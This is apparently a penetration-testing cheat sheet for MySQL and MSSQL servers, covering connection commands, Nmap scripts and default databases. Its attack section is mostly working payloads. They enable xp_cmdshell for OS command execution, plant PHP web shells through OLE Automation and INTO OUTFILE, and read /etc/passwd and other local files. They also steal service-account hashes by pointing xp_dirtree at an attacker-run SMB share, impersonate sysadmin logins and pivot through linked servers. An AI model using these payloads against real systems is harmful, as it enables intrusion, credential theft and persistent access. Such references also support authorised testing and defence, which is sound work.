 # SQL

## MySQL
__Command:__ ```mysql -u <user> -p<password> -h <target>```

When using Nmap to scan the server, use the ```--script mysql*``` option.

### Configuration
__Configuration file:__ /etc/mysql/mysql.conf.d/mysqld.cnf

__Dangerous settings:__
- ```user```:	Sets which user the MySQL service will run as.
- ```password```: Sets the password for the MySQL user.
- ```admin_address```: The IP address on which to listen for TCP/IP connections on the administrative network interface.
- ```debug```: Indicates the current debugging settings
- ```sql_warnings```: Controls whether single-row INSERT statements produce an information string if warnings occur. 
- ```secure_file_priv```: Limits the effect of data import and export operations.

The ```debug``` and ```sql_warnings``` settings in particular can contain sensitive information.


### Default databases
- ```mysql```: Stores information required by the MySQL server
- ```sys```: Contains tables, information and metadata necessary for management
- ```information_schema```: Contains metadata
- ```performance_schema```: Monitors MySQL server at a low level


## MSSQL
__MSSQLClient command:__ ```impacket-mssqlclient <user>@<target> -windows-auth```   
__sqsh command:__ ```sqsh -S <target> -U <user> -P <password> -h```

When scanning with Nmap, use these options: 
- ```--script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes```
- ```--script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER```

### Default databases
- ```master```: Tracks all system information for an SQL server instance
- ```model```: Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database
- ```msdb```: The SQL Server Agent uses this database to schedule jobs & alerts
- ```tempdb```: Stores temporary objects
- ```resource```: Read-only database containing system objects included with SQL server

### Dangerous settings
- MSSQL clients not using encryption to connect to the MSSQL server
- The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
- The use of named pipes
- Weak & default sa credentials. Admins may forget to disable this account


## Useful SQL commands
- ```show databases```: Show all databases
- ```use <database>```: Select a database
- ```show tables```: Show all available tables in database
- ```show columns from <table>```: Show all columns in selected table
- ```select * from <table>```: Show everything in selected table
- ```select * from <table> where <column> = <string>```: Search for a particular string in table

End all SQL commands with the ";" character.

## Attacks

### SQL Injection
Described in more detail in the Web Applications section.

### Command execution
System commands can be executed using __MSSQL__ if the ```xp_cmdshell``` feature is enabled.

Example of use:  
```xp_cmdshell <command>```   
```GO```

If ```xp_cmdshell``` is not enabled, it can be enabled with appropriate privileges using the following commands:

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

To write files using __MSSQL__, need to enable Ole Automation Procedures.

Commands for enabling Ole Automation Procedures:
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Commands for creating a file: 
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

Command for reading local file:
```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

Command execution in __MySQL__ can be achieved with the appropriate privileges by writing to a location in the file system that can execute commands.

Example (creating a reverse shell using PHP):
```SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';```

This write privilege is controlled by the global system variable ```secure_file_priv```, which can be set as follows:
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations

Command for reading a local file: ```select LOAD_FILE("/etc/passwd");```

### Hash stealing
In MSSQL, the service account hash can be stolen using ```xp_subdirs``` or ```xp_dirtree```. First, start __Responder__ or __impacket-smbserver__ and then execute one of the following commands:

Command using ```xp_dirtree```: 
```
1> EXEC master..xp_dirtree '\\<host>\<share>\'
2> GO
```

Command using ```xp_subdirs```:
```
1> EXEC master..xp_subdirs '\\<host>\<share>\'
2> GO
```

### Impersonating existing users
In __MSSQL__, a user can take on the permissions of another user or login using the ```IMPERSONATE``` permission.

Identifying users that can be impersonated:
```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Checking current user and role:
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Impersonating user (run within the master database):
```
1> EXECUTE AS LOGIN = '<user>'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

### Communicating with other databases
In MSSQL, servers can be linked to one another, creating the possibility of lateral movement between the servers.

Identifying linked servers:
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```

Identifying user used for connection and its privileges
```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<linked server IP>\SQLEXPRESS]
2> GO
```

Then execute queries using sysadmin privileges on the linked server.